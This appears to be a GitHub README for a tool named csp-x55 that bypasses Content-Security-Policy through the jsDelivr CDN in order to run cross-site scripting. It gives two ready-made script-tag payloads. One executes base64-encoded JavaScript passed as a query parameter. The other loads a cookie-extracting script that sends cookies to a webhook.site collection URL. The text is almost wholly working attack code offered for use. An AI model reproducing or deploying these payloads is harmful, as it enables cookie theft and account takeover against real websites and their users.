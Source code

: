 # csp-x55
XSS by bypassing Content-Security-Policy through CDN.



Example usage using `alert('xss');` in base64 `YWxlcnQoJ3hzcycpOw==`
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@b983bf3b472cbe70c18209ac35ccb80bf73ca2d4/x55.js?c=YWxlcnQoJ3hzcycp">
```

```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js" r="https://webhook.site/youridhere"></script>
```
